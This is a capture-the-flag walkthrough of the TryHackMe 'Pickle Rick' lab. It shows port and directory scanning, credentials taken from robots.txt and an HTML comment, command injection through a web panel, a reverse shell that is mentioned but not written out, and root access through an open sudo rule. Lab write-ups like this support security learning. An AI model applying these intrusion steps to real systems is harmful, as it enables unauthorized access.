 
# Pickle Rick - TryHackMe 

```bash
❯ victim -i '10.10.84.218'
Saved! 
``` 

## Nmap Scans

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-05 15:35 +0530
Initiating Parallel DNS resolution of 1 host. at 15:35
Completed Parallel DNS resolution of 1 host. at 15:35, 0.00s elapsed
Initiating SYN Stealth Scan at 15:35
Scanning 10.10.84.218 (10.10.84.218) [65535 ports]
Discovered open port 80/tcp on 10.10.84.218
Discovered open port 22/tcp on 10.10.84.218
Completed SYN Stealth Scan at 15:35, 8.97s elapsed (65535 total ports)
Nmap scan report for 10.10.84.218 (10.10.84.218)

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63 
80/tcp open  http    syn-ack ttl 63 
``` 

* Open ports: 22 ssh , 80 http 

## Web Enumeration

![webpage](https://i.postimg.cc/nLGcQFR1/webpage.png)

* Dirsearch results

```bash
❯ dirsearch -u http://$VMIP/ -w /opt/wordlists/big.txt -e .php 200
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 20477

Output File: /home/trevohack/.dirsearch/reports/10.10.84.218/-_23-10-05_16-01-07.txt

Error Log: /home/trevohack/.dirsearch/logs/errors-23-10-05_16-01-07.log

Target: http://10.10.84.218/

[16:01:08] Starting: 
[16:01:13] 200 -  882B  - /login.php
[16:01:30] 301 -  313B  - /assets  ->  http://10.10.84.218/assets/
[16:03:33] 200 -   17B  - /robots.txt
[16:03:41] 403 -  300B  - /server-status
``` 

* Found a login panel `/login.php` 

* `robots.txt` reveals some text `Wubbalubbadubdub` 

* The `html` source of the main page reveals a username 

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->
``` 

* Login to the site using the creds `R1ckRul3s:Wubbalubbadubdub`

![logon](https://i.postimg.cc/g08LtbMw/login.png)

* You will be presented a command panel where you could inject commands to the server. 

![command](https://i.postimg.cc/mhf0wMh1/command-panel.png)

## Getting a shell 


* Run a bash rev shell on the server to obtain a shell as `www-data`

![shell-got](https://i.postimg.cc/26BY7CTJ/shell.png)

### First Ingredient

```bash
$ cat /var/www/html/Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair 
``` 

* Exploring the files you may find the second ingredient easily

```bash
cat '/home/rick/second ingredients'
1 jerry tear
``` 

## Privilege Escalation

* Running `sudo -l -l` shows that `www-data` can run anything without password 

```bash
www-data@ip-10-10-84-218:/home/rick$ sudo -l -l 
sudo -l -l 
Matching Defaults entries for www-data on
    ip-10-10-84-218.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-84-218.eu-west-1.compute.internal:

Sudoers entry:
    RunAsUsers: ALL
    Options: !authenticate
    Commands:
	ALL
``` 

```bash
www-data@ip-10-10-84-218:/home/rick$ sudo su - root
sudo su - root
mesg: ttyname failed: Inappropriate ioctl for device
id 
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice 
``` 

## CTF Done 
